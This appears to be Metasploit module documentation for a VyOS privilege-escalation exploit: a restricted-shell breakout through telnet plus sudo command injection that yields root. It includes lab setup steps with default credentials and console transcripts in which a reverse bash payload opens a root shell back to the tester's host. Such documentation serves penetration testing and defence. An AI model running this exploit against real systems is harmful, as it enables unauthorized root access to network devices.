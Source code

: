 ## Vulnerable Application

This module exploits command injection vulnerabilities and an insecure
default sudo configuration on [VyOS](https://www.vyos.io/products/)
versions 1.0.0 <= 1.1.8 to execute arbitrary system commands as root.

VyOS features a `restricted-shell` system shell intended for use by
low privilege users with operator privileges. This module exploits
a vulnerability in the `telnet` command to break out of the restricted
shell, then uses sudo to exploit a command injection vulnerability in
`/opt/vyatta/bin/sudo-users/vyatta-show-lldp.pl` to execute commands
with root privileges.

This module has been tested successfully on VyOS 1.1.8 amd64 and
VyOS 1.0.0 i386.

## Verification Steps

Download:

* https://downloads.vyos.io/?dir=release/legacy/

Login as `vyos` / `vyos`.

Create a new user with `operator` privileges:

```
vyos@vyos:~$ configure
[edit]
vyos@vyos# set system login user jsmith full-name "John Smith"
[edit]
vyos@vyos# set system login user jsmith authentication plaintext-password password
[edit]
vyos@vyos# set system login user jsmith level operator
[edit]
vyos@vyos# commit
s[edit]
vyos@vyos# save
Saving configuration to '/config/config.boot'...
Done
```

Start the OpenSSH service:

```
vyos@vyos:~$ sudo sh
sh-4.1# service ssh start
```

1. Start msfconsole
1. Do: `use exploit/linux/ssh/vyos_restricted_shell_privesc`
1. Do: `set RHOSTS [IP]`
1. Do: `set USERNAME [username]`
1. Do: `set PASSWORD [password]`
1. Do: `set payload [payload]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### USERNAME

SSH username (default: `vyos`)

### PASSWORD

SSH password (default: `vyos`)

## Scenarios

### VyOS 1.1.8 (amd64) - operator user

```
msf6 > use exploit/linux/ssh/vyos_restricted_shell_privesc
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set rhosts 172.16.191.158
rhosts => 172.16.191.158
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set username jsmith
username => jsmith
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set password password
password => password
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > check
[*] 172.16.191.158:22 - The service is running, but could not be validated. SSH service detected.
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > run

[*] Started reverse TCP handler on 172.16.191.165:4444
[*] 172.16.191.158:22 - Attempt to login to VyOS SSH ...
[+] SSH connection established
[*] Requesting PTY ...
[+] PTY successfully obtained
[*] Requesting shell ...
[+] Remote shell successfully obtained
[*] Remote system is VyOS
[*] Remote session is using restricted-shell. Attempting breakout to system shell ...
[+] Unrestricted system shell successfully obtained. Sending payload ...
[*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.158:36030) at 2020-09-18 11:30:49 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux vyos 3.13.11-1-amd64-vyos #1 SMP Sat Nov 11 12:10:30 CET 2017 x86_64 GNU/Linux
cat /etc/issue
Welcome to VyOS - \n \l
```

### VyOS 1.1.8 (amd64) - admin user

```
msf6 > use exploit/linux/ssh/vyos_restricted_shell_privesc
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set rhosts 172.16.191.158
rhosts => 172.16.191.158
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set username vyos
username => vyos
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set password vyos
password => vyos
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > check
[*] 172.16.191.158:22 - The service is running, but could not be validated. SSH service detected.
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > run

[*] Started reverse TCP handler on 172.16.191.165:4444
[*] 172.16.191.158:22 - Attempt to login to VyOS SSH ...
[+] SSH connection established
[*] Requesting PTY ...
[+] PTY successfully obtained
[*] Requesting shell ...
[+] Remote shell successfully obtained
[*] Remote system is VyOS
[*] Remote session is using unrestricted shell. Launching system shell ...
[+] Unrestricted system shell successfully obtained. Sending payload ...
[*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.158:36103) at 2020-09-18 11:32:49 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux vyos 3.13.11-1-amd64-vyos #1 SMP Sat Nov 11 12:10:30 CET 2017 x86_64 GNU/Linux
cat /etc/issue
Welcome to VyOS - \n \l
```
